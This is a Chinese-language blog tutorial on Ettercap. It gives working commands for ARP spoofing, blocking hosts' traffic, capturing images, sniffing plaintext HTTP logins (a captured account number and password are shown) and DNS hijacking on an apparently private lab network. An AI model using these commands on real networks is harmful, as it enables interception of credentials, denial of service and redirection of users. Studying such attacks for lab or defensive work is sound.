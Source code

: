```yaml
---
title: Ettercap 简易入门
date: 2019-07-20 00:03:58
tags:
  - Kali
  - DNS
  - 网络
categories:
  - 安全工具
featuredImage: https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Ettercap/0.jpg
---
```


关于 Ettercap 的有趣例子。

<!--more-->

## 安装与配置

安装很容易：

```shell
$ apt install ettercap-text-only
```

使用前需要修改配置，给予 Ettercap 足够的权限。配置文件位于 `/etc/ettercap/etter.conf`，找到：

```
[priv]
ec_uid = 65500
ec_gid = 65500
```

将两个值都修改为 0，表示给予 root 权限。

另外，如果想嗅探 https 包则需要根据配置文件的提示去除指定的注释。我这里使用的是 Linux 系统，防火墙为 iptables，所以我取消注释了 177 和 178 两行。

```
# if you use iptables:
   redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
   redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
```

## ARP 欺骗

我们知道，ARP 请求包是广播发送的，然而 ARP 应答包则是单播发送的。因此通过 Ettercap，我们可以在收到同一网段内的其它主机广播的 ARP 请求后，向它们发送 ARP 应答包，使它们认为我们的主机就是网关。这样一来，任何发送至外网的请求都将经过我们的主机。

如果我们成功实施了 ARP 欺骗，作为一个伪网关，就可以截获同网段内所有发送至外网的流量。我们可以选择不再将这些数据包转发至外网，这将使得该网段内所有其它主机无法上网：

```shell
$ arpspoof -i eth0 -t 192.168.159.128 192.168.159.2
```

其中 `-i` 指定网卡接口，`-t` 指定要欺骗的目标主机，最后的 IP 地址是本网段内真正的网关地址。如何查看真正的网关地址呢？

简便的方法是直接查看当前连接的网络属性，里面会直接显示 `默认网关` 字段。另一种方法是 `traceroute 任意外网网址 `，这样第一跳的地址必定是网关地址。

```shell
$ traceroute baidu.com
traceroute to baidu.com (123.125.114.144), 30 hops max, 60 byte packets
 1  _gateway (192.168.159.2)  0.947 ms  0.819 ms  0.681 ms^C
```

结果：

![图 1]({{< param cdnPrefix >}}/Ettercap/0.jpg)

![图 2]({{< param cdnPrefix >}}/Ettercap/1.jpg)

或者，我们照常转发流量（这个操作由 Ettercap 自动完成），但是将数据包中的图片存储下来：

```shell
$ ettercap -i eth0 -Tq -M arp:remote /// ///
$ driftnet -i eth0 -b -a -d pic
```

其中 `-T` 表示只使用命令行，`-q` 表示不显示具体数据包信息，`-M` 指定使用的模式，`///` 表示同网段下所有主机，`-b` 表示声音提醒，`-a` 保存图片，`-d` 指定保存目录。

由于 Ettercap 截获的是整个数据包，因此常常可以获取比图片更敏感的信息。举个例子，假设我们已经开始 ARP 欺骗：

```shell
$ ettercap -i eth0 -Tq -M arp:remote /// ///
```

这时，同网段主机访问了一个 http 网站并进行登录。我们可以在命令行看到：

![图 3]({{< param cdnPrefix >}}/Ettercap/2.jpg)

由于帐号和密码是明文传输的，我们可以轻易得到帐号 `10175101282` 和密码 `aaaaaa`。

## DNS 劫持

作为伪网关，我们当然也可以将一些域名解析到指定的 IP，实现 DNS 劫持。首先修改另一个配置文件 `/etc/ettercap/etter.dns`，在这里面可以输入域名匹配规则与解析规则，如:

```
*.edu.cn           A   192.168.159.135
```

可以看出，前面是一个类正则的域名匹配规则，然后中间指定 `A Record`，最后指定要解析到哪个 IP 地址上，这里我们使用了攻击者主机内网 IP。

保存后，我们在本机开一个服务器：

```shell
$ service apache2 start
```

然后开始 DNS 劫持：

```shell
$ ettercap -i eth0 -Tq -P dns_spoof /// ///
```

当受害者主机访问类似 [aaa.ecnu.edu.cn](#) 的域名时，将会看到我们的 Apache 服务器的默认页面，这样就完成了 DNS 劫持。命令行提示：

```
dns_spoof: A [aaa.ecnu.edu.cn] spoofed to [192.168.159.135]
```

结果：

![图 4]({{< param cdnPrefix >}}/Ettercap/3.jpg)

## 小结

显然上述攻击都有一个共同的前提，那就是攻击者和受害者处于同一网段。由此不难发现，局域网内的安全是十分脆弱的，这是由局域网内主机互相访问的便利性所带来的代价，而如何防护这类攻击是需要进一步思考的问题。
